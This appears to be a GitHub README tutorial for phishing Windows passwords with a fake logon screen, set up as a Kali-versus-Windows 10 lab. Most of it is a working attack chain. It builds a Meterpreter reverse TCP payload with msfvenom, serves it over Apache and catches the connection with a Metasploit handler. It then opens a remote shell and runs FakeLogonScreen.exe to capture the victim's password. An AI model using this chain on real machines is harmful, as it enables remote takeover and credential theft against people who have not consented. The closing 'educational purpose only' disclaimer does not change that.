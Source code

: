 ## Windows Password Fishing with Fake Login Screen

# Things You Need:
* Kali Linux Machine (attacking machine).
* Windows 10 (victim machine).

# Step 1:
Start your Kali Linux machine and download the fake login screen from [here](https://github.com/bitsadmin/fakelogonscreen/releases)

![image1](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_LVw4yPzVvtjmrfMdAwMkw.png)

# Step 2:
Now unzip the file using the command

```
unzip <file-name>.zip
```

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YJ_Fidq-fKkRmnCES8G-8g.png)

# Step 3:
After doing this you have to create a malicious payload using msfvenom. The exploit is as follow.

msfvenom -p windows/meterpreter/reverse_tcp lhost=<listning-ip> lport=<listning-port> -f exe >> <file-name-you-want-to-create>.exe

It’s creating a Meterpreter reverse TCP shell payload for a Windows target. Meterpreter is an advanced, dynamically extensible payload that operates in memory.

![image1](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*s9ju1fzKx6Qf70kkcQrGvQ.png)

![image1](https://miro.medium.com/v2/resize:fit:464/format:webp/1*abBUYoHzSYIBeJZnA6fHhg.png)

# Step 4:
First create a directory by the name of share in the location mentioned below and then paste the file that you have created in the directory. (LOCATION: /var/www/html)

cd /var/www/html
sudo mkdir share

Go back to the location where you have created the .exe file and then use this command to paste the file into the directory that you have made.

sudo cp <file-name> /var/www/html/shares/

# Step 5:
Now turn on the Apache2 server by using the following command

sudo service apache2 start

![image1](https://miro.medium.com/v2/resize:fit:522/format:webp/1*IaQyUeHH9IXhzm0CF1EocA.png)

# Step 6:
Now open up your windows 10 machine and then open your favorite browser and by using this format open the server.

http://<ip-address-of-attacking-machine>/share

![image1](https://miro.medium.com/v2/resize:fit:316/format:webp/1*SvQoqF2Jr_DEazGT9VCNCQ.png)

As you can see the file you created is there. So you have to simply download the file from the HTTP Server.

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*cjYd-6MIwIjo0QhQtptvtg.png)

![image1](https://github.com/iabdullah215/Network-Security/assets/121729444/f27d6212-ea98-479c-b6d1-805ffaf1c720)

# Step 7:
After this go back to your Kali Linux machine and start the metasploit tool. First the command to set the module.

use multi/handler

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Cw4DrI4hQW-SLJtiwXPNRw.png)

# Step 8:
Then set the Payload, LHOST, and LPORT parameters by using the commands below.

set LHOST <ip-address-of-your-machine>
set LPORT 4444 // it would be set to 4444 by default
set payload windows/meterpreter/reverse_tcp

![image1](https://miro.medium.com/v2/resize:fit:750/format:webp/1*vHNY-jUFytRV_RgulOjWhg.png)

# Step 9:
After this use any of the commands mentioned bellow to execute the exploit. After typing the command click the .exe file in the windows to start a connection.

run
exploit

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*hiUqGtFgl3-99E0efg0Gzw.png)

# Step 10:
Now upload the file from your Linux machine to the windows machine in the LOCATION: /root/Downloads/FakeLogonScreen.exe (where my file was downloaded) by using the command.


![image1](https://github.com/iabdullah215/Network-Security/assets/121729444/076e3ac5-bb86-4daa-a1de-2da143f3ec7e)

# Step 11:
Now type the command below to enter the windows cmd.

shell

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*viV7AJUGhsU60otvRrgpuw.png)

# Step 12:
After this run .exe file by just entering the download directory and typing the name of file i.e. FakeLogonScreen.exe

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ij0x4IIrUuMs-sVci46jiw.png)

# Step 13:
After doing everything right you’ll see that all the running files on the windows will close and a login screen will open. Upon typing the password you’ll receive the feedback on the meterpreter terminal.

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1jhonIDkgaOJZmRIZVhYLA.png)

# Step 14:
Now type in the password. If you’ll type in the wrong password. It will tell on the terminal that the password is wrong and when you’ll type in the correct password It’ll tell that it is the correct one.

![image1](https://miro.medium.com/v2/resize:fit:390/format:webp/1*1YA-dSqxhBBdbV9e9jzJnA.png)

As I was in my personal user so I can’t compromise that. So I created a test user in order to exploit it. So i again went through all the stuff and yah eventually got the password.

![image1](https://miro.medium.com/v2/resize:fit:494/format:webp/1*H8PTsDeajlosP4tJB5WCkA.png)

## Use it for educational purpose only...
